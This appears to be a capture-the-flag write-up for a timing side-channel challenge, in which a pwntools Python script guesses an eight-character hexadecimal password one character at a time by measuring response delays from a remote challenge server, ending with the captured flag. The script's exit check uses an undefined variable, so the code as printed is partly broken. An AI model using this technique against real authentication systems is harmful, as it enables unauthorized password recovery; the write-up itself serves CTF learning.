 ### Challenge description

A side channel timing attack.
Figure out the password in 90 seconds before connection terminates.
The password is dynamic and changes every connection session.

NOTE, the password is eight characters long and will be hexadecimal.

### Solution

We download the file and create a script that will test each possible hex one by one. If time increases then we note it and move to guessing the next hex. (the script is ugly and needs rewriting, but it did the job).

```python
from pwn import *
import timeit


hexx = list('0123456789abcdef')
#prev_secs = 0.101
inc = 1
final = ''
#target = process("./app.py")

# uncomment and edit this for remote
target = remote("challenge.ctf.games", 31719)
prev_secs = 0.240

print(target.recvuntil(":"))

while True:
	for i in hexx:
		pas = final + i + 'a' * (8 - inc)
		print('-->' , pas)
		start = timeit.default_timer()
		target.sendline(pas)
		out = target.recvuntil(':')
		stop = timeit.default_timer()
		secs = round(stop - start,3)
		print(secs)
		if secs > prev_secs:
			print(out)
			#prev_secs += 0.24
			prev_secs += 0.101
			final += i
			print(final)
			inc += 1
			break
		
			
	if len(final) == 8 and yo == 9:
		break

out = target.recv()
print(out)
```
flag{ab6962e29ed608c0710dbf2910f358d5}
